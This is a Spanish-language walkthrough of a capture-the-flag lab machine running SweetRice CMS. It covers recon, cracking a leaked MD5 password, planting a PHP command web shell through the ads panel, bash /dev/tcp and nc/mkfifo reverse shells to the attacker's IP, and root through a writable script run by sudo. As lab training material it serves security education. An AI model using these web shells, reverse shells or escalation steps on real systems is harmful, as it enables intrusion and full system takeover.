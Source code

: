 # Summary
- IP: 10.10.43.118
- Ports: 22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
	-  80 -> Apache httpd 2.4.18

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Analizamos la página web, la cual solo muestra la página por defecto de apache, por lo que no nos sirve de nada.
- Analizamos directorios con gobuster:

```
$gobuster dir -u 10.10.43.118 -w /home/dante/SecLists/Discovery/Web-Content/common.txt
```

- Encontramos un directorio "content" el cual nos muestra una página web de un CMS denominado "SweetRice", nada más; hacemos fuzzing con gobuster para encontrar posibles subrutas en content/:

```
$gobuster fuzz -u http://10.10.43.118/content/FUZZ -w /home/dante/SecLists/Discovery/Web-Content/common.txt -b 404
```

- Encontramos la ruta "/content/as" la cual tiene la página de login del CMS "SweetRice"; bucamos vulnerabilidades para sweetrice:

```
searchsploit sweetrice
```

- Encontramos varias, probamos con la de backups discovery en busqueda de posibles contraseñas, en el archivo del exploit encontramos lo siguiente:

```
You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup
```

- Nos damos cuenta en el fuzzing anteriormente hecho encontramos el directorio "content/inc" entonces accedemos y encontramos la carpeta de backups mysql, descargamos el archivo, lo analizamos y nos encontramos un posible usuario con una contraseña hasheada, la intentamos romper con john:

```
$john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.hash --format=RAW-MD5
```

En caso de querer volver a ejecutar john, se debe remover el siguiente archivo:

```
$rm /home/dante/.john/john.pot
```

- Encontramos una contraseña, la probamos en la página de login como el usuario "manager" y accedemos a la página de sweetrice.
- Nos damos cuenta que se trata de la versión 1.5.1; en searchsploit vemos que hay un ataque Cross-Site Request Forgery / PHP Code Execution, descargamos el html y lo analizamos:

```
In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
Code You Can
Customize Exploit For Your Self .
```

- Nos dirigimos a la pestaña "ads" y podremos agregar cualquier código php que será luego interpretado, aprovechamos esta vulnerabilidad para crear un parámetro "cmd" el cual nos permita ejecutar comandos ya sea desde el link o desde el propio recurso:

```<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

- Ahora nos dirigimos al recurso creado con el nombre de "shell" y nos entablamos una reverse shell:

http://10.10.43.118/content/inc/ads/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.18.101.123/443 0>%261"

- Accedemos, hacemos tratamiento de la tty y encontramos la primera flag.
- Hacemos sudo -l y nos arroja lo siguiente:

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- Tenemos permiso de ejecutar como root el script escrito en perl "backup.pl", lo analizamos para ver en que consiste y nos damos cuenta que dentro del código ejecuta otro archivo:

```
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```

- Analizamos este otro archivo y vemos que tenemos permisos de escritura, es decir podemos modificarlo y esto se ejecutará como root, por lo que podemos escirbir el código para entablar una reverse shell y esta nos permitirá acceder como root, en este caso el archivo copy.sh ya tiene puesta una reverse shell, le cambiamos la direccion ip por la nuestra y nos ponemos en escucha:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.101.123 1234 >/tmp/f
```

- Y por último ejecutamos como root (sudo) el binario permitido:

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

- Encontramos la flag de root.

